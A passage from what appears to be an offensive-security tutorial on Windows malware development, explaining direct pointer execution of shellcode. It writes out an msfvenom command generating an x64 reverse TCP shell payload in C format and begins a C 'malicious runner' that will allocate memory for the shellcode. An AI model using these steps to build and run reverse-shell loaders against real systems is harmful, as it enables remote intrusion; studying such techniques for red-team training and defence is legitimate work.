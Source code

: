In this case, since we want to integrate this shellcode into our malicious program, we are going to use C as a format, so that the shellcode is directly outputted in such format after creation. This command can be used for the whole generation process:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f c -o shellcode.c
```

![generating shellcode with `msfvenom`](GenerateShellcode.png)

Keep note of the payload, `msfvenom` supports large payload sets, but in this time we define the payload to be just a simple reverse shell. So when we execute the payload on a targeted system, we should be able to catch the shell with simple netcat listener. 

It is highly advised, especially if you are learning or testing your new technique, to use payload such as `windows/x64/exec CMD=calc.exe` since it is a smaller shellcode, and is easier to test if your execution method works.

### Combining the pieces

Since we now have our shellcode ready, lets combine the pieces and craft our malicious runner. For this demo, we will not perform any process injection, since the main goal is to explain Direct Pointer execution, which CANNOT support process injection!

The first step is to declare our libraries and then the shellcode:

```C
#include <stdio.h>
#include <windows.h>

unsigned char buf[] = 'msfvenom output';
```

!!!
Just by including `windows.h` into a C program, you can start using all Win32 APIs.
!!!

Then we need to allocate memory within the process address space, in order to write the shellcode into it. This can be done with various Win32 APIs such as `VirtualAlloc` or native C functions such as `malloc`.

Pretty much we are on step 1: